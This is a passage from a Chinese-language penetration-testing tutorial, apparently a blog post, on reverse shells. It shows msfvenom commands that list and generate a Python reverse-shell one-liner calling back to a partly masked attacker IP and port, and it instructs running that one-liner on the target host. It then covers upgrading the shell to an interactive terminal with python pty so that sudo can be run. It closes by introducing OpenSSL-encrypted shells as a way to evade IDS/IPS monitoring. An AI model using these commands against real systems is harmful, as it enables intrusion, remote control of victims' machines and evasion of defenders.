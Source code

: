 强大的 Metasploit 框架也为我们提供了生成一句话反弹 shell 的工具，即 msfvenom，绝对的实用。当我们不记得前面说的所有反弹 shell 的反弹语句时，只要我们有 Metasploit，那么我们随时都可以使用 `msfvenom -l` 来查询生成我们所需要的各类命令行一句话，具体使用方法如下。

我们直接可以使用 `msfvenom -l` 结合关键字过滤（如 cmd/unix/reverse），列出我们需要生成的各类反弹 shell 一句话的 payload：

```
msfvenom -l payloads | grep 'cmd/unix/reverse'

```

![](https://ask.qcloudimg.com/http-save/yehe-5957324/yn7lltgkuy.png)

如上图所示，metasploit 支持生成反弹 shell 一句话的类型非常丰富，大家可以依据渗透测试对象自行选择使用。比如，我们获取一个 python 反弹 shell 的一句话：

```
msfvenom -p cmd/unix/reverse_python LHOST=47.xxx.xxx.72 LPORT=2333 -f raw

```

![](https://ask.qcloudimg.com/http-save/yehe-5957324/7tsnepzbj3.png)

将生成的 python 反弹 shell 的一句话在目标主机上执行即可：

![](https://ask.qcloudimg.com/http-save/yehe-5957324/eqss22twxn.png)

**反弹 shell 后获取模拟终端**
--------------------

其实，上面所讲的各种方法获取的 shell 都不是一个标准的虚拟终端环境，它仅仅是一个标准输入。你会发现存在一个问题，就是即使我们获取了目标虚拟终端控制权限，但是往往会发现其交互性非常的差，回显信息与可交互性非常的差和不稳定，具体见情况有以下几个种。

• 获取的虚拟终端没有交互性，我们想给添加的账号设置密码或执行 sudo 等命令，无法完成。• 标准的错误输出无法显示，无法正常使用 vim 等文本编辑器等。• 获取的目标主机的虚拟终端使用非常不稳定，很容易断开连接。

![](https://ask.qcloudimg.com/http-save/yehe-5957324/h95aget3gt.png)

这往往都是因为我们获取的 shell 并不是标准的虚拟终端，为了能够完成输入密码等操作，我们必须模拟一个真正的终端设备。

我们其实可以借助于 python 默认包含的一个 pty 标准库来获取一个标准的虚拟终端环境。Python 在现在一般发行版 Linux 系统中都会自带，所以使用起来也较为方便，即使没有安装，我们手动安装也很方便。

我们只需在获取的 shell 里面输入如下命令，即可模拟一个终端设备：

```
python -c "import pty;pty.spawn('/bin/bash')"

```

![](https://ask.qcloudimg.com/http-save/yehe-5957324/mnkbd9egi2.png)

如上图所示，成功模拟在 shell 中出了一个终端设备，并成功执行了 sudo 等命令。

**使用 OpenSSL 反弹加密 shell**
-------------------------

在上文中，我们总结了很多反弹 shell 得方法，但是我发现这种反弹 shell 方式都有一个缺点，那就是**所有的流量都是明文传输的**。这些通过 shell 通过传输的流量都可以被管理员直接抓取并理解，当目标主机网络环境存在网络防御检测系统时（IDS、IPS 等），网络防御检测系统会获取到我们的通信内容并进行告警和阻止。因此，我们需要对通信的内容进行混淆或加密，这时可以选择使用 OpenSSL 反弹一个加密的 shell。

